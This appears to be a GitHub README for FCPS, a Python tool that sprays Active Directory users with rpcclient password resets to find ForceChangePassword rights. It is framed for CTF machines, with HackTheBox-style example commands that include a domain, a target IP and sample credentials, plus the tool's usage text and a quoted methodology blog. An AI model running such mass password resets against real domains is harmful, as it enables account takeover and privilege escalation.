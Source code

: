 # FCPS

This tool allows the user to spray credentials to test for ForceChangePassword rights over other users in the Username list.
First, gather a username list by using enum4linux, impacket-GetADUsers, etc.

For some CTF machines, Bloodhound doesn't show ForceChangePassword rights over other users. In those cases, you try each user in a special group manually.

In this blog by Juggarnaut-sec, the methodology is explained further "our current user “vcreed” is a member of that group. Very often, when we find an “IT support” type of custom group (or user) with Help Desk, Service Desk, Support, IT, etc. in their name, there’s a pretty good chance that the group / user will have delegate privileges that allow them to force a password reset" https://juggernaut-sec.com/ad-recon-msrpc-over-smb/#Manually_Enumerating_Users_Groups_and_More_%E2%80%93_rpcclient

```
python3 ~/Tools/FCPS.py -d administrator.htb -u 'Olivia' -p 'ichlie' -i 10.10.11.42 -f users.txt -n 'ichlie'
python3 ~/Tools/FCPS.py -d administrator.htb -u 'Olivia' -p 'ichlie' -i 10.10.11.42 -f users.txt -n 'ichlie'

Usage: FCPS.py [-h] -d DOMAIN -u CONTROLLED_USER -p CONTROLLED_USER_PASSWORD -i DOMAIN_CONTROLLER_IP -f
               USERNAME_LIST -n NEW_PASSWORD

Automate password changes via rpcclient

options:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Target domain name (e.g., example.com)
  -u CONTROLLED_USER, --controlled_user CONTROLLED_USER
                        User with permission to change passwords
  -p CONTROLLED_USER_PASSWORD, --controlled_user_password CONTROLLED_USER_PASSWORD
                        Password for the controlled user
  -i DOMAIN_CONTROLLER_IP, --domain_controller_ip DOMAIN_CONTROLLER_IP
                        Domain Controller IP address
  -f USERNAME_LIST, --username_list USERNAME_LIST
                        Path to file containing usernames
  -n NEW_PASSWORD, --new_password NEW_PASSWORD
                        New password to set for users
```


![image](https://github.com/user-attachments/assets/3ba16968-4338-439b-a6d0-f4b44025b54b)


